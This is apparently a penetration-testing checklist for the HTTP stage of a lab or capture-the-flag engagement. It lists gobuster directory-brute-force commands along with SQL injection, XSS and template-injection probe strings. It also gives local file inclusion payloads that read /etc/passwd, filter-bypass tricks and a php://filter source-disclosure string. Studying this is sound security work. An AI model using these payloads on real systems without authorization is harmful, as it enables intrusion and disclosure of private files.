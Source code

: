 # 2 HTTP

## Manual scanning

- Check for `robots.txt` file.
- Check out the page's source code using dev tools.
- Software detection. Does the software have known vulnerabilities?
- Software detection. Does this site / software have default credentials?
- Check for hostname. Are there email addresses that lead to clues?

## Automated scanning

- Run `gobuster` for finding directories on the web server.

```shell
gobuster dir --url http://$ip --wordlist=/usr/share/dirb/wordlists/common.txt | tee gobuster/common.txt
```

```shell
gobuster dir --url http://$ip --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt | tee gobuster/medium.txt
```

```shell
gobuster dir --url http://$ip --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,html,php | tee gobuster/extensions.txt
```

- Run `ffuf` for subdomain enumeration. 


## Injection attacks

- Check for SQL injection points using

```
' or 1=1--
```
```
' or 1=1 -- -
```

- Check for XSS (cross site scripting) vulnerabilities using

```
<h1>Hi</h1>
```
```
<script>alert('Hi');</script>
```

- Check for SSTI (server side template injection) using

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

See [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) for more information on server side template injection.

## File inclusion

- Check for file inclusions to the file `/etc/passwd`.
- Check for filter bypass
    - Use `.././..` instead of `../..`.
  - Use null bytes `%00` to bypass filters.
  - Use suffix `/etc/passwd/.` to bypass filters.
  - Use relative paths `dir/../../file/path` to bypass filters.
- Check for source code using

```
php://filter/convert.base64-encode/resource=post.php
```

- Go for remote file inclusions.
